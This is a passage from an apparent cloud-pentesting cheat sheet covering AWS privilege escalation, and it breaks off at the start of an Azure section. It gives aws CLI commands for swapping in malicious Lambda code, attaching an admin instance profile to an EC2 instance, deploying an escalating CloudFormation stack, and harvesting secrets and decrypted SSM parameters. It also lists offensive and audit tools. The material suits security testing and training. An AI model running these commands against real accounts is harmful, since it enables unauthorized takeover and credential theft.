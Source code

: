 If user can update Lambda code:

```bash
aws lambda update-function-code --function-name target-func --zip-file fileb://malicious.zip
```

Payload executes with the Lambda’s IAM role.

***

#### ⚙️ 8. EC2 Instance Profile Hijack

```bash
aws ec2 associate-iam-instance-profile --instance-id i-0123abcd --iam-instance-profile Name=AdminRole
```

Grants admin permissions via attached role.

***

#### 💣 9. CloudFormation Privilege Abuse

If allowed to create stacks:

```bash
aws cloudformation create-stack --stack-name escalator --template-body file://escalate.yml
```

Template includes resources with `AdministratorAccess`.

***

#### 🧠 10. Secrets & Token Harvesting

```bash
aws secretsmanager list-secrets
aws ssm get-parameter --name /prod/db/password --with-decryption
```

***

#### ⚙️ Tools for AWS PrivEsc

| Tool               | Use                                   |
| ------------------ | ------------------------------------- |
| **CloudGoat**      | AWS privilege escalation training lab |
| **Pacu**           | AWS exploitation framework            |
| **Enumerate-IAM**  | Detects privilege escalation paths    |
| **CloudSplaining** | Audits IAM policies for risk          |

***

### III. ⚙️ Azure Privilege Escalation

#### 🧠 1. Enumerate Permissions
